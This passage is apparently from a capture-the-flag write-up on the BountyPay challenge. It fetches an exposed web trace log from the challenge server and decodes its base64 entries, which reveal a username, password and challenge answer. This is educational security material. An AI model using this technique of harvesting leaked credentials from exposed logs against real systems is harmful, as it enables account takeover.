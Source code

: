 ```php title="logger.php"
);
```

Let's see if the file is available on the server.

```
http get https://app.bountypay.h1ctf.com/bp_web_trace.log
```

```HTTP
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/octet-stream
Date: Thu, 04 Jun 2020 16:46:48 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

We can easily decode the base64 encoded data, I'm either using [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) inside of Burp or [CyberChef](https://gchq.github.io/CyberChef/) for this kind of thing:

```json
{
    "IP": "192.168.1.1",
    "METHOD": "GET",
    "PARAMS": {
        "GET": [],
        "POST": []
    },
    "URI": "/"
}
{
    "IP": "192.168.1.1",
    "METHOD": "POST",
    "PARAMS": {
        "GET": [],
        "POST": {
            "password": "V7h0inzX",
            "username": "brian.oliver"
        }
    },
    "URI": "/"
}
{
    "IP": "192.168.1.1",
    "METHOD": "POST",
    "PARAMS": {
        "GET": [],
        "POST": {
            "challenge_answer": "bD83Jk27dQ",
            "password": "V7h0inzX",
            "username": "brian.oliver"
        }
    },
    "URI": "/"
```